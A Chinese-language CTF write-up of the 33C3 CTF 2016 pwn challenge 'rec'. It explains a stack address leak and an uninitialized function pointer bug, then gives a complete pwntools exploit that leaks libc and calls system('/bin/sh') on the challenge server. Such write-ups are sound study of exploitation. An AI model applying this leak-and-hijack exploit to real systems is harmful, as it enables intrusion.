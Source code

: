 ```yaml
---
title: "[33C3 CTF 2016] rec 200"
author: bruce30262
tags:
- pwn
- 33C3 CTF 2016
categories:
- write-ups
date: '2016-12-31'
layout: post
---
```


## Info  
> Category: pwn  
> Point: 200  
> Author: bruce30262 @ BambooFox

## Analyzing
32 bit ELF, 保護全開

程式選單:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
>
```

整理一下幾個較為重要的 function: 

* Take note: 輸入一個 note
* Read note: 印出剛剛輸入的 note
* Polish: 可以做 `sum` 運算
* Sign: 輸入一個數字，然後印說它是正數還是負數

首先會發現到 Read note 那邊怪怪的:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 0
Your note: 123
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 1
Your note:�VXV`�s��`XV     <-- WTF?
```
會印出亂碼是因為 take note 的時候，程式會將一個 stack address 當成 note 的 buffer。之後離開該 function 時，因為 function epilogue 的關係，程式會在該 stack address 上面塞入一些 (有用的) address。因此透過 read note，我們可以 leak 出 stack address 跟 text 段的 base address。

此外程式在 `sign` function 裡面有個邏輯漏洞:
```c
  if ( num <= 0 )
  {
    if ( num < 0 )
      v1 = (void (*)(void))puts_negative;
  }
  else
  {
    v1 = (void (*)(void))puts_positive;
  }
  v1();
```

對於正數和負數 `sign` function 都有做好處理，但是如果我們輸入 `0` 的話呢?

```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 5
0
[1]    40091 segmentation fault (core dumped)  ./rec
```
程式 crash 了。這是因為 `sign` 裡面沒有處理 `0` 的情形，導致程式沒有 assign function pointer 給 `v1`，進而讓程式執行到 `v1()` 時產生了 segmentation fault。

## Exploit

首先觀察一下 `sign` function 裡面 assign function pointer 時的組語:
```
0x56555d3b:  mov    eax,DWORD PTR [ebp-0x20]   <-- &v1 = ebp-0x20
0x56555d3e:  call   eax
```
可以看到，如果我們有辦法控制到 `[ebp-0x20]` 的值的話，我們就有把辦法控制到 `eax` 的值，進而控制程式的 control flow。

透過 gdb 我們還發現到 `sign` 這個 function 的 stack frame 比起其他的 function 都還要來的"高"( `ebp` 的值較低 )。因此如果要有辦法控制到 `v1`，我們必須想辦法在其他 function 裡面盡量"拉高" stack frame，進而控制到 `v1` 的值。

經過一連串的 fuzzing，我發現如果使用 Polish 的 `sum` 功能，我們可以藉由不斷的輸入數字來"拉高"程式的 stack frame，**原因是因為程式會不斷地將數字 push 到 stack 上**。透過這樣的方式，我們不但可以控制到 `v1` ( function pointer )，還可以控制到 function 的參數 !

因此總結一下思路:
1. 利用 take note 和 read note 來 leak text 段的 base address
2. 利用 Polish 的 `sum` 功能來控制 `sign` function 裡面的 function pointer 和 function 參數。
3. 我們首先將 function pointer 設成 `puts`，參數設成 `__libc_start_main@got` ( 這題因為是 FULL RELRO 的關係沒有 `.got.plt` )
4. 呼叫 `sign` function，數字輸入 `0`，讓程式執行 `puts(__libc_start_main@got)`
5. 得到 libc 的 base address 之後重複 step 2~4，這次將目標改成執行 `system("/bin/sh")`

Final exploit : ( 這題 libc 的資訊可以透過 [libc-database](https://github.com/niklasb/libc-database) 來獲得 )

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import numpy

HOST = "78.46.224.74"
PORT = 4127
ELF_PATH = "./rec"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def take_note(note):
    r.sendlineafter("> ", "0")
    r.sendlineafter("note: ", note)

def read_note():
    r.sendlineafter("> ", "1")

def polish_sum(nums):
    r.sendlineafter("> ", "2")
    r.sendlineafter("Operator:", "S")
    for num in nums:
        print "adding:", num
        r.sendlineafter("Operand:", str(num))

    r.sendlineafter("Operand:", ".")

def sign(num):
    r.sendlineafter("> ", "5")
    r.sendline(str(num))

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    take_note("123")
    read_note()

    r.recvuntil("note: ")
    fptr_addr = u32(r.recv(4)) - 0x350 # where the function pointer be loaded
    text_base = u32(r.recv(4)) - 0x6fb
    puts = text_base + 0x520
    lsm_got = text_base + 0x2fe0
    puts_got = text_base + 0x2fd8
    
    log.success("fptr_addr: "+hex(fptr_addr))
    log.success("text_base: "+hex(text_base))

    nums = [i for i in xrange(0x63)] + [puts, lsm_got]
    polish_sum(nums)

    sign(0) # this will call puts(lsm_got)
    lsm_addr = u32(r.recv(4))
    #########################################
    #$ ./dump libc6-i386_2.24-3ubuntu2_amd64
    #offset___libc_start_main = 0x00018180
    #offset_system = 0x0003a8b0
    #offset_str_bin_sh = 0x15cbcf
    #########################################
    system_addr = lsm_addr + 0x22730 
    bin_sh = lsm_addr + 0x144a4f 
	
    log.success("lsm: "+hex(lsm_addr))
    log.success("system: "+hex(system_addr))
    log.success("bin_sh: "+hex(bin_sh))

    nums = [i for i in xrange(0x63)] + [numpy.int32(system_addr), numpy.int32(bin_sh)]
    polish_sum(nums)
    sign(0) # this time will call system("/bin/sh")
    
    r.interactive()
```

flag: `33C3_L0rd_Nikon_would_l3t_u_1n`